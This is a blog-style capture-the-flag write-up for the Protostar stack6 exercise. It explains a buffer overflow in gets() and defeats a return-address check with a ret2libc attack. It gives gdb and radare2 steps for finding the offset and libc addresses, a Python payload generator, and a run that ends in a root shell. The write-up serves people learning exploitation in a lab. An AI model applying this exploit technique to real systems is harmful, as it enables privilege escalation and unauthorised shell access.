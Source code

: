```yaml
---
layout: post
title: Protostar Writeup - stack6
updated: 2018-10-09 21:45
tags: [ctf, tech, binary exploit, protostar]
---
```


## Protostar - stack6

Moving on to the next challenge. Here's where things get interesting. This challenge is actually based on a security mechanism(not really but similar), it basically won't execute anything on the stack, so how do we exploit this binary? First have a look at the code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();  
}
```

Let's take a look at the `getpath()` method. If you've done the previous challenges this is simple, well almost. With one catch. The return address is restricted. Let's take a closer look at what this means...

```sh
$ gdb stack6
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) info proc map
process 2367
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fe0000 0xb7fe2000     0x2000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```

Using this command we can see the layout of how the memory is used for the process.
From the C code we see that we can't return to any address starting with `0xbf`.
From the map above we can see that this is roughly where the stack resides.
What this means is that executing instructions from the stack is a no go.

So, now what? We can't return to any address on the stack, injecting code is useless.
We will now 'try harder'. After a little investigation I came across return oriented programming or ROP for short.
What is ROP? ROP is a way of constructing your payload by using existing code present. So instead of using our stack address to return to, We use an existing address to return to. What we're essentially doing is creating a fake stack frame. It looks kind of like this.

![Call Stack Layout](https://upload.wikimedia.org/wikipedia/commons/thumb/d/d3/Call_stack_layout.svg/588px-Call_stack_layout.svg.png)

In order to call an existing function we need to follow this layout as it is a convention.
We're going to make use of the C standard library functions to craft our exploit. This is a modified ROP known as ret2libc. So basically we'll be making use of C existing library functions.

First things first, let's find the offset.

```sh
~ >>> ragg2 -P 256 -r                          
AAABAACAADAAEA...QABRABSABTABUABVABWABXAB
```

Use this as a pattern to find the offset.

```sh
(gdb) r
Starting program: /opt/protostar/bin/stack6
input path please: AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQA...
...

Program received signal SIGSEGV, Segmentation fault.
0x41416241 in ?? ()

~ >>> r2 -                                     
 -- Radare2, what else?
[0x00000000]> wopO 0x41416241
80
```

So once that's done we need to go function hunting. We need 2 function addresses, one `system()` and the other `exit()`. Note that `exit()` is here to satisfy the calling convention as our return pointer. It can be any function, but this goes for a much cleaner way to do things.

We can get those two fairly trivially using gdb.

```sh
$ gdb ./stack6
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack6/stack6.c:27
27      stack6/stack6.c: No such file or directory.
        in stack6/stack6.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

So those are the addresses we require, note them down somewhere, we'll use them in our exploit.
But wait, there's more we need a way to tell `system()` what parameters we've given it.
We can do this by following the calling convention. But since we can't store anything on the stack, we need another way. Why not use libc itself again, since we're ret2libc'ing anyways. What we need is an address to a string which says "/bin/sh", for a way to get `system()` to spawn a shell for us.

Here's how we do that...(assuming we know where libc is located)

```sh
$ strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh
```

Now this address is actually the offset. So we need to add this to the beginning of the address at which libc is loaded. From the memory map way above, we see that it starts at `0xb7e97000` so the actual location of the string will be `0xb7e97000 + 0x11f3bf`. This will be important for our exploit.

Now we can finally craft our exploit...

```python
import struct
def go():
  libc_start = 0xb7e97000
  string_offset = 0x11f3bf
  string_loc = libc_start + string_offset
  system_loc = 0xb7ecffb0
  exit_loc = 0xb7ec60c0
  padding = 'A' * 80
  payload = padding
  payload += struct.pack("I", system_loc)
  payload += struct.pack("I", exit_loc)
  payload += struct.pack("I", string_loc)
  print payload
go()
```

Exploiting in 3...2...1...using cat to hold the input.

```sh
$ (python /tmp/exploit.py; cat) | ./stack6
user@protostar:/opt/protostar/bin$ (python /tmp/exploit_stack6.py; cat) | ./stack6
input path please: got path AAA...
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```
And there you have it. Another fun challenge, this time by reusing existing resources by ROP.
I was pretty amused by this, I hope that you are too. Until next time, cheers!

P.S. The exploit-exercises website is most probably [dead](https://www.reddit.com/r/LiveOverflow/comments/9jyqmm/exploit_exercises_website_not_working/).

### Sites

[Call Stack](https://en.wikipedia.org/wiki/Call_stack#Stack_and_frame_pointers)
[Phrack](http://phrack.org/issues/49/14.html)
[Detailed ret2libc](https://0x00sec.org/t/exploiting-techniques-000-ret2libc/1833/2)
